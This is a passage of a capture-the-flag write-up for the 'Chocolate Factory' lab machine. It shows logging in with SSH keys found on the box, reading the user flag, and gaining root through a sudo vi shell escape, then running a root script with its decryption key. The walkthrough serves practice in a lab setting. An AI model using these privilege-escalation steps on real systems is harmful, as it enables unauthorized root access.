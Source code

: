 ```bash
```

3. We find that
	1. Can't read the user flag as www-data. Pffttttt.
	2. We have user weak in the security. FOund these [keys](ssh/charlie) to heaven lying around. And to our surprise, they belong to user charlie. Let's use it to get on the system as legit charlie.
	3. We can read the flag now.
	```bash
	charlie@chocolate-factory:/home/charlie$ ls -la
	total 40
	drwxr-xr-x 5 charlie charley 4096 Oct  7  2020 .
	drwxr-xr-x 3 root    root    4096 Oct  1  2020 ..
	-rw-r--r-- 1 charlie charley 3771 Apr  4  2018 .bashrc
	drwx------ 2 charlie charley 4096 Sep  1  2020 .cache
	drwx------ 3 charlie charley 4096 Sep  1  2020 .gnupg
	drwxrwxr-x 3 charlie charley 4096 Sep 29  2020 .local
	-rw-r--r-- 1 charlie charley  807 Apr  4  2018 .profile
	-rw-r--r-- 1 charlie charley 1675 Oct  6  2020 teleport
	-rw-r--r-- 1 charlie charley  407 Oct  6  2020 teleport.pub
	-rw-r----- 1 charlie charley   39 Oct  6  2020 user.txt
	charlie@chocolate-factory:/home/charlie$ cat user.txt 
	flag{cd5509042371b34e4826e4838b522d2e}
	```

## PRIVESC

1. Simple sudo priv esc it is. [GTFObins](https://gtfobins.github.io/gtfobins/vi/#sudo) for the win again.

```bash
charlie@chocolate-factory:/home/charlie$ sudo -l
Matching Defaults entries for charlie on chocolate-factory:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User charlie may run the following commands on chocolate-factory:
    (ALL : !root) NOPASSWD: /usr/bin/vi

charlie@chocolate-factory:/home/charlie$ sudo vi -c ':!/bin/bash' /dev/null

root@chocolate-factory:/home/charlie# id
uid=0(root) gid=0(root) groups=0(root)
root@chocolate-factory:/home/charlie# cd /root/
root@chocolate-factory:/root# ls
root.py
root@chocolate-factory:/root# cat root.py 
from cryptography.fernet import Fernet
import pyfiglet
key=input("Enter the key:  ")
f=Fernet(key)
encrypted_mess= 'gAAAAABfdb52eejIlEaE9ttPY8ckMMfHTIw5lamAWMy8yEdGPhnm9_H_yQikhR-bPy09-NVQn8lF_PDXyTo-T7CpmrFfoVRWzlm0OffAsUM7KIO_xbIQkQojwf_unpPAAKyJQDHNvQaJ'
dcrypt_mess=f.decrypt(encrypted_mess)
mess=dcrypt_mess.decode()
display1=pyfiglet.figlet_format("You Are Now The Owner Of ")
display2=pyfiglet.figlet_format("Chocolate Factory ")
print(display1)
print(display2)
print(mess)root@chocolate-factory:/root# python root.py 
Enter the key:  b'-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY='
__   __               _               _   _                 _____ _          
\ \ / /__  _   _     / \   _ __ ___  | \ | | _____      __ |_   _| |__   ___ 
 \ V / _ \| | | |   / _ \ | '__/ _ \ |  \| |/ _ \ \ /\ / /   | | | '_ \ / _ \
  | | (_) | |_| |  / ___ \| | |  __/ | |\  | (_) \ V  V /    | | | | | |  __/
```